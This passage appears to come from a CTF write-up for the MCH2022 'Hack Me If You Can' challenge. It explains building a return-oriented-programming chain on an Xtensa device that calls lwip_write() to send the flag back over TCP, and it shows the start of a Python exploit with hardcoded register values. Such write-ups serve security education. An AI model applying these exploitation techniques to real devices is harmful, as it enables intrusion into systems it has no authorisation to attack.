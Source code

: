 ### 2.1 Finding a ROP gadget

First some advice: *do your homework*. If I had done mine, I would have known
that **the Xtensa stack is not executable** . Hopefully this will save you from
trying to write shellcode for an architecture that essentially only supports
relative addressing, which, I learned, is not fun.

Just because we cannot run our own shellcode does not mean we can't tell the
programme what to do, however. We can use
[return-oriented programming](https://en.wikipedia.org/wiki/Return-oriented_programming)
to make use of any instructions already present, including those related to
sending data over TCP.

One function stands out in particular: `ssize_t lwip_write(int socket, void*
data, size_t size)`. This function invokes `lwip_send()` to send data over TCP
and takes three arguments, of which we can set the first two via **a10** and
**a11**. Further, the register dumps show that **a12** -- the third argument --
already contains a large value at the time our return address gets loaded. If we
set our return address to `lwip_write()`, **a10** to our socket descriptor
(`0x37`), and **a11** to the flag address we found earlier, we should be able to
send the flag back to our client. Helpfully, `lwip_write()` also sets **a13**
(the TCP `flags` argument to `lwip_send()`) to `0x0`, so we don't have to figure
out how to do it ourselves.

![](/img/ghidra-4.png)

### 2.2 Writing the exploit

If we bring all this together, we get a fairly straightforward Python exploit:

```python
import socket
import argparse

def main():
    parser = argparse.ArgumentParser(
            description="Exploit for the 'Hack Me If You "
                        "Can' challenge for the MCH2022 CTF."
    )
    parser.add_argument('target', type=str, help='target IP / hostname')
    parser.add_argument('port', type=int, help='target port')
    args = parser.parse_args()

    # Exploit constants
    A10 = b"\x37\x00\x00\x00" # socket descriptor (first argument)
    A11 = b"\x58\x53\xfb\x3f" # flag address (second argument)
    PC  = b"\xb8\x76\x0d\x40" # call8 lwip_write(a10, a11, a12)
    A1  = b"\xb0\xf1\xfb\x3f" # stack pointer (req'd to return from do_echo())

    exploit(args.target, args.port, A10, A11, PC, A1)
```